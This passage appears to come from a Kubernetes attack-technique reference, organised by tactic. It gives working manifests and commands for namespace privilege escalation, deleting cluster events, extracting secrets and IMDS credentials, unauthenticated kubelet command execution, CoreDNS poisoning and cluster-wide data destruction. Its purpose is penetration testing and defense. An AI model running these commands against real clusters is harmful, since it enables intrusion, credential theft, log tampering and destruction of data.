- Ensure that pods meet defined pod security standards: restrict privileged containers using pod security standards
- Gate images deployed to Kubernetes cluster: Restricted deployment of new containers from trusted supply chains
Pull requests needed ❤️
Cluster-admin binding
The cluster-admin ClusterRole is a default ClusterRole in Kubernetes. This is a super user that can perform any action on any resource in the cluster. Think of this as the root user of a cluster. If an attacker is somehow allowed the ability to apply RoleBindings or ClusterRoleBindings, they could escalate to cluster-admin. It's important to note that this is fairly unlikely to be a direct attack path due to the way Kubernetes handles RBAC.

Kubernetes RBAC has an interesting way of preventing privilege escalation. Essentially, you cannot create permissions that you do not already have unless you have the escalate verb RBAC for your Role or ClusterRole. You can see that even though this account is allowed to create roles, RBAC is not allowing me to create a role that doesn't have permissions my current role doesn't have.

Namespace Admin Privilege Escalation
Although RBAC does it's best to not allow privilege escalation, it can still be possible if the Role associated with a ServiceAccount has either the escalate verb or a * for the RoleBinding and Role resource. The following Role applied to a ServiceAccount will allow an attacker to gain full control over the namespace due to the Role and RoleBinding resources being granted the access to all the RBAC verbs (including escalate).
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
namespace: default
name: pod-view
rules:
- apiGroups: [""]
resources: ["pods"]
verbs: ["create","get", "watch", "list"]
- apiGroups: ["*"]
resources: ["roles"]
verbs: ["*"]
- apiGroups: ["*"]
resources: ["rolebindings"]
verbs: ["*"]
The attack path for this is to create a new Role and Rolebinding and apply it to the ServiceAccount context we are operating under when inside pod.
The following Role named pwnd grants essentially admin powers over all resources in all apiGroups.
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
namespace: default
name: pwnd
rules:
- apiGroups: ["*"]
resources: ["*"]
verbs: ["*"]
The following RoleBinding will bind the role pwnd to the ServiceAccount pod-view
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: pwnd
namespace: default
roleRef: # points to the Role
apiGroup: rbac.authorization.k8s.io
kind: Role
name: pwnd # name of Role
subjects: # points to the ServiceAccount
- kind: ServiceAccount
name: pod-view
namespace: default # ns of service account
Since we have a * in the RBAC permissions for roles and rolebindings, we can submit this Role and Rolebinding to the API server from the pod. After creating them, running kubectl auth can-i --list shows us that we are now essentially an admin within our namespace.

To prove that we have further escalated our privileges, we can attempt to take an action we we previously were not able to take such as listing secrets in the namespace.

Defending
Pull requests needed ❤️
hostPath mount
See Persistence -> Writable hostPath Mount
Access Cloud Resources
See Credential Access -> Access managed identity credentials
Defense evasion
The defense evasion tactic is a few ways that attackers can hide or obfuscate their tracks
Clear Container Logs
If they are not mounted into a volume or otherwise collected, logs saved to a Pod are wiped when a Pod is destroyed. Because of this, it's common to store logs on a volume mount which can be persistent and/or collected by other services. To clear the logs from the container/pod, an attacker with access to the pod can simply rm -rf /path/to/logs.
Defending
Pull requests needed ❤️
Delete Kubernetes Events
Kubernetes events are essentially logs at the cluster layer. Events are reported to the API server and contain information about state changes such as pods being created or nodes restarting.
There is no directory where events are stored and thus it may be harder to ingest these logs into a SIEM without creating a custom application.
Specific logs can be queried with kubectl: kubectl get events -o yaml | yq .items.1
apiVersion: v1
count: 298
eventTime: null
firstTimestamp: "2024-03-29T04:05:01Z"
involvedObject:
apiVersion: v1
fieldPath: spec.containers{distroless}
kind: Pod
name: distroless
namespace: default
resourceVersion: "679"
uid: aa451abc-99dd-4684-b373-75a13faf42a3
kind: Event
lastTimestamp: "2024-03-29T05:10:12Z"
message: Pulling image "istio/distroless"
metadata:
creationTimestamp: "2024-03-29T04:05:01Z"
name: distroless.17c12087dd1a32b1
namespace: default
resourceVersion: "3958"
uid: b5919efc-7277-4147-87c0-e515796b7c50
reason: Pulling
reportingComponent: ""
reportingInstance: ""
source:
component: kubelet
host: minikube
type: Normal
Or simply with kubectl get events

Logs can be cleared using kubectl delete events --all
Defending
Pull requests needed ❤️
Pod Name Similarity
While fairly simple, just naming a pod something that doesn't stand out is a great way to hide among "known good" pods.
In this example, a secondary etcd pod was created that is actually just an Ubuntu image.
apiVersion: v1
kind: Pod
metadata:
name: etcd
namespace: kube-system
spec:
containers:
- name: ubuntu
image: ubuntu:latest
command: ["sh","-c","sleep 100000000000000"]

Defending
Pull requests needed ❤️
Connect from proxy server
An adequately hardened Kubernetes cluster will have access controls (such as firewalls) in place to limit traffic to the API server. Connecting to the API server from inside a trusted server (or inside an allow listed subnet) can allow an attacker access to resources as well as blend in with legitimate traffic.
The attack path for this would be to compromise a developers machine, then masquerade as the developer's identity to to perform further actions against a Kubernetes cluster.
Defending
Pull requests needed ❤️
Credential access
The credential access technique can mean a few different things, but in general, it's techniques an attacker can use to gain access to sensitive information. Credentials can be stored in every layer of a Kubernetes cluster.
- List K8S secrets
- Access Node Information
- Container Service Account
- Application Credentials In Configuration Files
- Access Managed Identity Credentials
- Malicious Admission Controller
List K8S secrets
Listing Kubernetes secrets is a bit unintuitive. A "list" of all secrets (in a namespace) can be created by running kubectl get secrets This access is granted by the RBAC list verb.
In practice this looks relatively safe, however, an attacker can simply output the metadata associated with the secret as YAML or JSON and access the actual secret.

The RBAC get verb refers to getting a specific secret. The actual secret can be queried with kubectl get secret <secret_name> -o yaml | yq .data.<secret_field> | base64 -d

A one liner from, AntiTree to "dump all the ClusterRoles that have LIST but not GET permissions. The thought is that if you have LIST without GET, you’re attempting to restrict access to secrets but you’re going to be sorely mistaken."
kubectl get clusterroles -o json |\
jq -r '.items[] | select(.rules[] |
select((.resources | index("secrets"))
and (.verbs | index("list"))
and (.verbs | index("get") | not))) |
.metadata.name'
Like most resources, secrets are namespace scoped.

Defending
Pull requests needed ❤️
Access node information
Kubernetes nodes often store sensitive information that should not be accessible from within a pod. If an attacker has access to files on a node, they may be able to use these information identified for various other techniques such as Privilege Escalation.
Accessing node information requires either one of the following:
- A Container breakout vulnerability
- Kubernetes misconfiguration
Having full read access to a node's filesystem is dangerous as this gives an attacker access to read the overlay2 storage driver and access other sensitive information stored on nodes. Much of the information of value is stored in /etc/kubernetes. If able to access a node, normal Linux privilege escalation techniques apply such as searching for credentials.
Dredge can be used to search for secrets on a node.

Interesting node files and directories
The locations of some potentially interesting files: Note this can vary greatly depending on the implementation details of a cluster. Note this list is not exhaustive:
/etc/kubernetes/: The default place to store Kubernetes specific information/etc/kubernetes/azure.jsonWhen on an AKS cluster, default location where service principles are stored./etc/kubernetes/manifests: The default place to store manifests See Persistence -> Static Pods/var/lib/kubelet/*: Files used by the kubelet
Defending
Pull requests needed ❤️
Container service accounts
When a pod makes a request to the API server, the pod authenticates as a Service account. You can inspect which service account a pod is using by querying the API server. kubectl get pods/<pod_name> -o yaml | yq .spec.serviceAccountName.

If a service account is not set in the manifest, Kubernetes automatically sets it which can be accessed from inside the pod at one of the following locations:
/run/secrets/kubernetes.io/serviceaccount
/var/run/secrets/kubernetes.io/serviceaccount
/secrets/kubernetes.io/serviceaccount
A manifest can opt out of mounting a service account by specifying in either the Pod or ServiceAccount manifest but the Pod spec takes precedence:
# ServiceAccount manifest disabling automounting
# Manifest from: https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/
apiVersion: v1
kind: ServiceAccount
metadata:
name: build-robot
automountServiceAccountToken: false
# Pod manifest disabling automounting
# Manifest from: https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/
apiVersion: v1
kind: Pod
metadata:
name: my-pod
spec:
serviceAccountName: build-robot
automountServiceAccountToken: false
...
Service accounts are namespace specific and can be listed with kubectl get serviceaccount -n <namespace>
By default, the service account granted to pods in the kube-system namespace grants full access to all resources. Service account permissions can be can be verified with the following kubectl command. The below command runs kubectl auth can-i --list using the service account tokens/certificates/namespace mounted in the Pod's default locations. You may need to change the location of --token,--certificate-authhority, and -n if the secret is in a non-standard location.
# Run kubectl and grab the service account tokens/certificate/namespace
# from their default locations. You may need to alter this if they're in
# non standard locations
./kubectl auth can-i --list \
--token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) \
--certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt \
-n $(cat /run/secrets/kubernetes.io/serviceaccount/namespace)
The following RBAC shows that this ServiceAccount in the kube-system namespace has full access to all resources and verbs.

In contrast, the default ServiceAccount in a namespace that is not kube-system does not have any useful RBAC permissions.

This ServiceAccount has get,list, and watch permissions for the pod resource.

Find RBAC associated with service accounts
Sometimes it's useful to find the RBAC assocaited with a ServiceAccount. Run the following command replacing REPLACEME with the name of the service account you wish to view the RBAC verbs for.
# Remember to replace REPLACEME
kubectl get rolebinding,clusterrolebinding \
--all-namespaces -o \
jsonpath='{range .items[?(@.subjects[0].name=="REPLACEME")]}[{.roleRef.kind},{.roleRef.name}]{end}'
The output will show the Role that is applied binded to this service account. The RBAC associated with that rule can be queried with kubectl describe <name>

Alternatively you can run kubectl get rolebindings,clusterrolebindings --all-namespaces -o wide | grep <ServiceAccountName> but the output is very large.
ServiceAccount API Tokens
Additionally an API token can be created for a service account that can be used to authenticate.

Defending
Pull requests needed ❤️
Application credentials in configuration files
Accessing application credentials is not a Kubernetes specific issue, however, credentials used in a Kubernetes cluster may be visible through manifests. Most notably, gaining access to an Infrastructure as Code repository could lead to sensitive information being identified from manifests.
Additionally, Kubernetes ConfigMaps are frequently used to pass information to a pod. This can be in the form of configuration files, environment variables, etc.
In this example, information is passed via a ConfigMap to a Pod running postgres which sets the environment variables POSTGRS_DB, POSTGRES_USER, POSTGRES_PASSWORD, and PGDATA. While ConfigMaps are not supposed to be used for sensitive information, they still can be used to pass in information such as passwords.
apiVersion: v1
kind: ConfigMap
metadata:
name: postgres-config
labels:
app: ecommerce
tier: postgres
data:
POSTGRES_DB: prod
POSTGRES_USER: prod
POSTGRES_PASSWORD: 123graham_is_SO_cool123
PGDATA: /var/lib/postgresql/data/pgdata
After a config map is created, it can be referenced by a manifest by using - configMapRef which will link the config map to the Pod.
apiVersion: v1
kind: Pod
metadata:
name: postgres
spec:
containers:
- name: postgres
image: postgres:latest
envFrom:
- configMapRef:
name: postgres-config
Once inside the pod, environment variables passed in via ConfigMaps can be listed with env.

Beyond ConfigMaps, searching for potentially sensitive strings such as PASSWORD=, is worthwhile. A tool like Dredge can be used for this.

Defending
Pull requests needed ❤️
Access managed identity credentials
With access to a Kubernetes cluster running in a cloud environment, a common way to escalate privileges is by accessing the IMDS endpoint at 169.254.169.254/latest/meta-data/iam/security-credentials/<user> to obtain tokens that may allow for privielge escalation or lateral movement.

This attack is different depending on the cloud provider.
Azure
Pull requests needed ❤️
GCP
Pull requests needed ❤️
AWS
Pull requests needed ❤️
Defending
For AWS environments, enforcing the use of [[IMDSv2]] can help mitigate this attack or simply disable the IMDS if it's unneeded. IMDSpoof can be used in conjunction with honey tokens to create detection.
Pull requests needed ❤️
Resources & References
Nick Frichette has a wonderful resource for pentesting cloud environments.
Malicious admission controller
See Persistence -> Malicious admission controller
Discovery
Discovering what information is useful for attacking a cluster is 80% of the work.
- Access Kubernetes API Server
- Access Kubelet API
- Network Mapping
- Exposed Sensitive Interfaces
- Instance Metadata API
Access Kubernetes API server
The kubernetes API server is the central communication channel with the cluster. This is what kubectl interacts with (although you can interact with it directly by sending REST requests using something such as curl).
The API server can be found by looking for the KUBERNETES_PORT_443_TCP environment variable inside of a pod. Without proper permissions you can't do much by accessing the API, but you should still ensure that only trusted machines can talk to it.

- Image from: https://kubernetes.io/docs/concepts/security/controlling-access/#api-server-ports-and-ips
Transport security
The official documentation page has a great overview:
By default, the Kubernetes API server listens on port 6443 on the first non-localhost network interface, protected by TLS. In a typical production Kubernetes cluster, the API serves on port 443. The port can be changed with the
--secure-port, and the listening IP address with the--bind-addressflag.The API server presents a certificate. This certificate may be signed using a private certificate authority (CA), or based on a public key infrastructure linked to a generally recognized CA. The certificate and corresponding private key can be set by using the
--tls-cert-fileand--tls-private-key-fileflags.If your cluster uses a private certificate authority, you need a copy of that CA certificate configured into your
~/.kube/configon the client, so that you can trust the connection and be confident it was not intercepted.
Authentication
Authentication then takes place using client certificates, bearer tokens, or an authenticating proxy to authenticate API requests. Any identity that creates an API call using a valid certificate signed by the cluster's CA is considered authenticated. The documentaion has much more information on Kubernetes authentication.
Authorization
All API requests are evaluated using the API server. Permissions are denied by default. There are a few different authorization modes that can be used by the API server:
- Node: Special mode used by kubelets
- RBAC: The most common access control method. Grants roles or users access to resources.
- ABAC: A more granular (and complex) access control system than RBAC. Can be used with RBAC. Enabled by adding
--authorization-mode=ABACto the API server manifest (often found in/etc/kubernetes/manifests/kube-apiserver.yaml). Great overview here - Webhook: Causes Kubernetes to query an outside service to determine user privileges.
Admission Control
After authentication and authorization, any admission controllers that are present act on the request. For example, if an admission controller is put into place that disallows privileged pods from being created, attempting to create a privileged pod will be stopped after authentication and authorization occurs.
Enumeration & Situational Awareness
During an engagement, it's possible to land on a machine that is using a Kubeconfig (or one is found). To see where the API server is in the context of the Kubeconfig being used, the command kubectl config view --raw can be used to view the Kubeconfig file. Additionally, kubect config current-context will return the cluster name.

Defending
Pull requests needed ❤️
Access Kubelet API
The Kubelet is an agent that runs on a Kubernetes node. This is the component that established communication between the node and API server. The Kubelet doesn't manage containers that were not created by Kubernetes, however, it can create Static Pods. See staticpods. Once the pod has been scheduled on a node, the Kubelet running on that node picks it up and takes care of actually starting containers.
Depending on the cluster, the settings defining authorization and authentication to the Kubelet API server can be found in various locations such as /etc/systemd/system/kubelet.service.d/10-kubeadm.conf.
Kubelet Authentication
By default, requests that are not outright rejected are given the username system:anonymous and a group of system:unauthenticated. To disable anonymous authentication, start the kubelet with the --anonymous-auth=false flag.
Kubelet Authorization
The Kubelet can serve a small REST API with read access on port 10250. Make requests to the a kubelet API to: - Run commands (possibly interactively) in a different pod - Start a new pod with privileges and node filesystem/resource access
Any request that is authenticated (even anonymous requests) is then authorized. Some information expanded upon from Liz Rice's Github Gist
- If
--anonymous-authis turned off, you will see a401 Unauthorizedresponse.

- If
--anonymous-auth=truebut--authorization-modeis not set toAlwaysAllow, you will get aForbidden (user=system:anonymous, verb=get, resource=nodes, subresource=proxy)response.
- If
--anonymous-auth=trueand--authorization-mode=AlwaysAllowyou'll see a list of pods.

When making changes, restart the systemd service with sudo systemctl daemon-reload ; sudo systemctl restart kubelet.service
Attacking
As an attacker, you can attempt to run a curl command against the Kubelet running on a node. If you can do this, it's pretty much game over for the node. What we're looking for is a kubelet with the both the flags --anonymous-auth=true and --authorization-mode=AlwaysAllow to be passed to the Kubelet startup command.
Attempt to communicate with kubelet by running: curl -sk https://<node ip>:10250/runningpods/ | jq. If successful, a ton of JSON will be returned.
If the message returned message isForbidden (user=system:anonymous, verb=get, resource=nodes, subresource=proxy) or simply Unauthorized, the Kubelet probably has --anonymous-auth=false and/or does not have --authorization-mode=AlwaysAllow set and thus you cannot communicate with the Kubelet API.
If pods ARE returned, there is a lot of useful information such as namespace data that can show you new namespaces you previously didn't know about.
If you don't have JQ and you don't want to upload it, you can do some funky parsing with sed to make things more legible curl -sk https://192.168.49.2:10250/runningpods/ | sed s/,/\\n/g | sed s/^{/\\n/.
 Using the
Using the pod name,namespace, and container_name data from the previous curl command you can attempt to execute commands on the pod by running: curl -sk https://<master node ip>:10250/run/<namespace>/<pod_name>/<container_name>/ -d "cmd=id". This will attempt to run the id command (Or any command you wish, just make sure the binary is actually on the pod.)

Defending
Pull requests needed ❤️
Network mapping in kubernetes is fundamentally the same concept as network mapping any network. There are a few unique challanges when it comes to mapping a network within a kubenetes cluster depending on your level of access. Get IP of pod if for some reason you need to: k get pod ssh -o custom-columns=NAME:metadata.name,IP:status.podIP
Kubernetes IP Address Ranges
- The network plugin is configured to assign IP addresses to Pods.
- The kube-apiserver assigns IP addresses to Services
- The Kubelet (or cloud-controller-manager) assigns IPs to a node.
Container to Container Networking
For networking, containers within a pod behave as if they are on the same host. They can all reach each other's ports on localhost since they share some resources (including volumes, cpu, ram, etc).
Service Discovery
Services can be discovered in all namspaces with kubectl get services -A. Once getting a list of services, you can query the manifest of a services by running kubectl get service <service_name> -o yaml. This will give you an idea of what port's the service is running on. In this case, the nginx server was running on port 80. To connect to this service, the command kubectl port-forward service/<service_name> 8080:80 can be run which maps port 8080 on our local machine to the service's port 80. In this case, it's an nginx webpage that we can reach by navigating to it in our browser at 127.0.0.1:8080


Defending
Pull requests needed ❤️
Exposed Sensitive Interfaces
See Initial Access -> Exposed Sensitive Interfaces
Instance Metadata API
See Credential Access -> Access Managed Identity Credential
Lateral Movement
Lateral movement in Kubernetes typically means moving from one pod to another. This is an important step in privilege escalation as different pods can be granted different permissions.
- Access Cloud Resources
- Container Service Account
- Cluster Internal Networking
- Application Credentials In Configuration Files
- Writable hostpath Mount
- CoreDNS Poisoning
- ARP Poisoning and IP Spoofing
Access Cloud Resources
See Credential Access -> Access Managed Identity Credential
Container Service Account
See Credential Access -> Container Service Account
Cluster Internal Networking
By default, Pods in a cluster can communicate with each other if there are no network policies in place preventing this. This allows pods to communicate even across namespaces.
In the following example, the pod IP for my-nginx-pod is obtained by running kubectl get pod my-nginx-pod -o custom-columns=NAME:metadata.name,IP:status.podIP

To demonstrate that we can reach this pod from the dmz namespace, the command kubectl exec -it tcpdump -n dmz -- wget -O - 10.244.0.52 is ran. The returned information is the default nginx webpage.

Defending
This can be "fixed" by implementing network policies
Pull requests needed ❤️
References and resources
Application Credentials In Configuration Files
See Credential Access -> Application Credentials In Configuration Files
Writable hostPath mount
See Persistence -> Writable hostPath mount
CoreDNS poisoning
CoreDNS is the "new" DNS system for Kubernetes which replaced the old KubeDNS system.
By default, the CoreDNS configuration is stored as a configmap in the kube-system namespace
The following is an example of a CoreDNS configuration file.
apiVersion: v1
data:
Corefile: |
.:53 {
log
errors
health {
lameduck 5s
}
ready
kubernetes cluster.local in-addr.arpa ip6.arpa {
pods insecure
fallthrough in-addr.arpa ip6.arpa
ttl 30
}
prometheus :9153
hosts {
192.168.49.1 host.minikube.internal
fallthrough
}
forward . /etc/resolv.conf {
max_concurrent 1000
}
cache 30
loop
reload
loadbalance
}
kind: ConfigMap
metadata:
creationTimestamp: "2024-03-29T04:00:45Z"
name: coredns
namespace: kube-system
resourceVersion: "417"
uid: 40770875-a1f7-4bf0-aeb5-4b71f60035a1
Attacking
If an attacker is able to edit this ConfigMap, they could redirect DNS traffic. In the following example, running kubectl exec -it tcpdump -- nslookup grahamhelton.com returns the name servers of grahamhelton.com
18.165.83.2618.165.83.6718.165.83.4718.165.83.124
Running nslookup outside of a pod returns the same results.

The CoreDNS config map file can be queried using kubectl get configmap coredns -n kube-system -o yaml.
 If an attacker can edit this ConfigMap, they can add a
If an attacker can edit this ConfigMap, they can add a rewrite rule that redirects traffic from grahamhelton.com to kubenomicon.com by adding in rewrite name grahamhelton.com kubenomicon.com into the config map.

Editing the config map can be accomplished by running kubectl get configmap coredns -n kube-system -o yaml > poison_dns.yaml, manually adding the file, and then running kubectl apply -f poison_dns.yaml, or by running kubectl edit configmap coredns -n kube-system and making changes.

Once the ConfigMap has been edited, CoreDNS usually needs to be restarted. To do so run kubectl rollout restart -n kube-system deployment/coredns. Finally, we can re-run the previous nslookup command inside a pod to prove that our traffic to grahamhelton.com will be routed to kubenomicon.com by running kubectl exec -it tcpdump -- nslookup grahamhelton.com. This time, instead of the name servers being returned being the valid name server for grahamhelton.com, they are instead the name server for kubenomicon.com.

Defending
Pull requests needed ❤️
References & Resources
ARP poisoning and IP spoofing
ARP spoofing in Kubernetes is essentially the same as ARP spoofing in any other network, however, instead of spoofing other "computers", you're typically spoofing other pods.
Attacking
The Aqua Research Team has an AMAZING proof of concept using scapy. I highly recommend reading through this if this.
Collection
Collection techniques are used by attackers to collect information through the cluster. This is typically exfiltration of data.
Images From A Private Registry
Images stored in a private container registry cannot be pulled into a Kubernetes cluster unless the cluster has some way to authenticate to the registry. If an attacker is able to gain access to the authentication credentials, they may be able to pull down the images on their own.
Collecting images may be useful to an attacker who is looking for secrets inside the container. Additionally, if an attacker is able to upload images to the registry, they could compromise the cluster. For more information see Initial Access -> Compromised images in registry.

If authenticated, images can be pulled from a registry by running docker pull <registry_URL>/REPO/IMAGE:TAG


Defending
Pull requests needed ❤️
Collecting data from pod
Collecting data from a Pod is essentially the exfiltrating of data. This can be done in a near infinite amount of ways depending on what kind of tooling is available inside the pod (although you may need to get creative), but the intended way to copy data in and out of a Pod is by using the kubectl cp command
- To copy data INTO a pod:
kubectl cp ~/path/to/file.sh podname:/file.sh - To copy data OUT of a pod:
kubectl cp podname:etc/passwd passwd

Defending
Pull requests needed ❤️
Impact
Impact is a nebulous term for "what can be done" upon compromise. It should go without saying that the impact is highly dependent on your threat model. Advanced adversaries may aim to have as little initial impact as possible to avoid detection.
Data Destruction
The impact of data destruction is fairly obvious. If an attacker has the ability to destroy data, they may be able to delete information from the cluster. This can be both to cause denial of service, or to remove unbacked up data from a cluster.
The following command is the functionality equivalent to running rm -rf --no-preserve-root / on a normal Linux machine: kubectl delete all --all --all-namespaces <remove_this_to_run> --grace-period=0 --force
Resource Hijacking
A common "attack" is running cryptominers on compromised infrastructure. Due to the nature of Kubernetes having the ability to scale up machines quickly, an attacker that is able to deploy Pods in a compromised cluster would be able to hijack the Node compute resources to mine cryptocurrency.
Resource Exhaustion
A sub category of Resource Hijacking is Resource exhaustion. If an attacker is able to identify that resources are automatically scaled up based on demand, they could execute an attack that would cost a company a large amount of money by flooding the service and thus causing extra compute to be used to scale with demand.
Denial of service
A denial of service attack in a Kubernetes cluster can range all the way from deleting all resources to taking down a single Pod to messing with a Node.
Fundamentals
Nodes
Worker nodes exist within the data plane which is the plane in a Kubernetes cluster that carries out actions given from the control plan. This is where Pods are deployed and thus your applications reside. The data plane typically consists of:
- Worker Node: One or more computers responsible for running workloads (such as pods)
- Kubelet: Process that runs on each Node. Responsible for executing tasks (such as deploying pods) provided to it by the API server.
- Pod: An object that represents one or more containers (sometimes called workloads)

Master Node
The Master Node(s) exists within the Control Plane and carries out the administrative actions for interacting and managing Kubernetes. The control plane consists of:
- API Server: The communication channel for any interaction with Kubernetes. Any interaction with Kubernetes must traverse the API server.
kubectlis the normal way of interacting with the API server but it can also be communicated with via any tool capable of making API calls such ascurl. - Scheduler: Watches the API server and listens for Pods that have not been assigned to a worker node. The scheduler is responsible for finding a Node to place the pod on.
- etcd: Version controlled key/value store. This holds the current state of the cluster.
- Controller manager: Is a collection of controllers each of which have control loops that watch the API Server for state changes to the cluster and make changes if the actual state is different than the desired state.
- Cloud Controller Manager: Similar to the Controller Manager but interacts with your cloud provider's APIs.
All of these components together are known as a cluster. Clusters can be configured in many ways, but a production environment is likely being run in a "high availability" configuration with at least 3 control plane nodes that are kept in sync and n number of worker nodes that Pods are deployed to.
 Note that the
Note that the etcd server can be configured in a few other ways than show above.
Attacking Nodes
It is usually true that gaining access root-level access to a node participating in kubernetes is very much the "endgame" for most environments. Root access to a kubernetes node allows an attacker to access information from all pods running on that node by exploring the overlay2 storage driver, deploy Static Pods, plunder /etc/kubernetes (discussed below), and more.
/etc/kubernetes
/etc/kubernetes is where kubernetes information is stored in most default configurations.
/etc/kubernetes: This is where kubeconfig files typically live as well as configuation information for control plane components (if on a control-plane node)/etc/kubernetes/manifestsis the path where the Kubelet looks for Pod manifests to deploy See Persistence -> Static Pods. There are a few default Pod manifests:- etcd.yaml
- kube-apiserver.yaml
- kube-controller-manager.yaml
- kube-scheduler.yaml
Often times you can find very sensitive information in the /etc/kubernetes directory on a node such as Initial Access -> Kubeconfig file. Which can be exfiltrated to an attacker machine to gain access to the cluster.

Services
Services are used to expose groups of pods over a network. They connect a set of pods to an service name and IP address. They can almost be thought of as a reverse proxy. Instead of having to directly connect to a Pod (and having to know how to connect to it), a client only has to know how to reach the service which will then route the request to the available pod.

- Image from NigelPoulton (Highly recommend this explanation)
ClusterIP
ClusterIP services are only accessible from other pods running in the cluster.
apiVersion: v1
# Defines the type as a Service
kind: Service
metadata:
name: Backend
spec:
# Defines the service type as ClusterIP
type: ClusterIP
ports:
# The external port mapping
- port: 80
# The internal port mapping (What port the pod is listening on)
targetPort: 80
# Select which pods to expose with the ClusterIP
selector:
name: my-demo-pod
type: front-end-app
Nodeport
Exposes an app to the outside world
apiVersion: v1
kind: Service
metadata:
name: test-nodeport
spec:
type: NodePort
selector:
app: web
ports:
# The internal cluster port
- port: 8080
# Port the pod is listening on
targetPort: 80
# The external port on cluster nodes
nodePort: 1337
LoadBalancer
etcd
While it's unlikely you'll need to directly interact with it, it's useful to know about the data store kubentes uses called etcd. Etcd is not a kubernetes specific technology, it's actually used by many other projects. According to the project site, etcd is:
"A strongly consistent, distributed key-value store that provides a reliable way to store data that needs to be accessed by a distributed system or cluster of machines. It gracefully handles leader elections during network partitions and can tolerate machine failure, even in the leader node."
At a high level, it's a version controlled key value store that can be interacted with using the etcdctl tool. The most basic example of creating a key/value pair is by running the command etcdctl put hello world.
This very basic example simply maps the key of hello to the value of world which can then be queried by running etcdctl get hello

If we write this output to json using etcdctl get --write-out=json hello | jq we can see that there is actually a little bit more going on under the hood. First, the key/value pair are base64 encoded. Second we can see that there is a create_revision and a mod_revision number. Notice how this output is very simliar to kubectl get <resource> -o json command.

By updating the vlaue stored in hello to hacker using etcdctl put hello hacker, we can see that the value has been updated after querying the etcd server with etcdctl get --write-out =json hello | jq. Interestingly, if we want to access the first value it stored with etcdctl get --rev 8 --write-outjson hello | jq, we can query etcd for the revision it was created at (in this case, 8) and it will give us our original world value.

Etcd utilizes the raft protocol to maintain state between nodes.
RBAC
The kubernetes Role-based access conrol (RBAC) system is probably one of the most important security controls available within kubernetes.
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
namespace: default
name: pod-copy
rules:
- apiGroups: [""]
resources: ["pods/exec"]
verbs: ["create"]
RBAC
There is one interesting quirk - Kubernetes doesn't have users. Well, at least not in the standard sense. A "user" in Kubernetes is simply a identity. To denote these identities, Kubernetes uses certificates and only trusts certificates signed by the Kubernetes CA. To create an identity, you first create a client certificate and set the common name to the identity you wish to create. You then use the Kubernetes Certificate Authority to cryptographically sign the client certificate that represents an identity.
Creating an RBAC user
- Generate a key:
openssl genrsa -out dev.key 2048 - Next, generate a certificate singing request (CSR) with the identity of "dev" and a group of "developer":
open ssl -new -key dev.key -out dev.csr -subj"/CN=dev/O=developer - Sign the CSR using the Kubernetes CA's certificate with a validity period of 30 days:
openssl x509 -req -in dev.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out dev_cert_signed.crt -days 30Now that this certificate has been signed by the Kubernetes CA, it can be embedded in a Kubeconfig file and a user with access to that kubeconfig file can assume the identity ofdev. This can be used if you, for example, need to create anAuditorrole that has read only access to the cluster.
RBAC is then applied to an identity using 2 of the 4 following concepts, Role and ClusterRole or RoleBinding and ClusterRoleBinding.
- Role: A role is a set of additive permissions. Anything that is not explicitly permitted is denied.
# Example modified from: https://kubernetes.io/docs/reference/access-authn-authz/rbac/
# The version of the kubernetes API you're using
apiVersion: rbac.authorization.k8s.io/v1
# The type of object to create. In this case, a role.
kind: Role # Or ClusterRole
metadata:
# The namespace your role is allowed access to. Omit if ClusterRole
namespace: default
# The name of the role
name: pod-reader
rules:
# Which API group can be accessed. "" indicates the core API group
- apiGroups: [""]
# The resource able to be accessed with verbs
resources: ["pods"]
# What the role is allowed to access with kubectl
verbs: ["get", "watch", "list"]
- ClusterRole: The same as a role, but is not "namespaced" which means ClusterRoles apply to the entire cluster, making them more powerful.
# Example modified from: https://kubernetes.io/docs/reference/access-authn-authz/rbac/
# The version of the kubernetes API you're using
apiVersion: rbac.authorization.k8s.io/v1
# The type of object to create. In this case, a role.
kind: ClusterRole
metadata:
name: pod-reader
rules:
# Which API group can be accessed. "" indicates the core API group
- apiGroups: [""]
# The resource able to be accessed with verbs
resources: ["pods"]
# What the role is allowed to access with kubectl
verbs: ["get", "watch", "list"]
- RoleBinding: Binds the permissions defined in a Role to an identity.
# Example modified from: https://kubernetes.io/docs/reference/access-authn-authz/rbac/
# The version of the kubernetes API you're using
apiVersion: rbac.authorization.k8s.io/v1
# This role binding allows "jane" to read pods in the "default" namespace.
kind: RoleBinding # Or ClusterRoleBinding
metadata:
name: read-pods
# Omit if ClusterRoleBinding
namespace: default
subjects:
# You can specify more than one "subject"
- kind: User
name: jane
apiGroup: rbac.authorization.k8s.io
roleRef:
# this must be Role or ClusterRole
kind: Role
# this must match the name of the Role or ClusterRole you wish to bind to
name: pod-reader
apiGroup: rbac.authorization.k8s.io
- ClusterRoleBinding: The same as a RoleBinding, but for ClusterRoles
# Example modified from: https://kubernetes.io/docs/reference/access-authn-authz/rbac/
# The version of the kubernetes API you're using
apiVersion: rbac.authorization.k8s.io/v1
# This role binding allows "jane" to read pods in the "default" namespace.
kind: ClusterRoleBinding
metadata:
name: read-pods
subjects:
# You can specify more than one "subject"
- kind: User
name: jane
apiGroup: rbac.authorization.k8s.io
roleRef:
# this must be Role or ClusterRole
kind: ClusterRole
# this must match the name of the Role or ClusterRole you wish to bind to
name: pod-reader
apiGroup: rbac.authorization.k8s.io
Roles and cluster roles can be queried for using kubectl get roles,clusterroles | grep -v system. Note that it might be useful to remove the "system" accounts using grep -v system

RBAC Limitations
RBAC permissions granted to a resource type do not have a way of determining which sub-resources you're targeting. For example, there is no way in RBAC to say "Allow the user to only get the secret named my-secret". Granting the permissions to get a secret means a user can get all secrets within that namespace.
Additionally, there is no field-level access control that would allow a user to edit only one field of a manifest. For example, to edit the namespace field of a manifest, a user would need full write permission to the manifest.
References
Kubelet
Namespaces
Namespaces in Kubernetes are a way to segment a Kubernetes cluster, similar to how subnetting divides a network into smaller sub networks. Namespaces are designed to share a cluster among different departments or logical groupings such as dev/test/prod. Namespaces are not intended to be used for workload isolation. For isolating workloads, multiple clusters should be used (although there are projects aimed at simplifying this). Namespaces provide a few other core features:
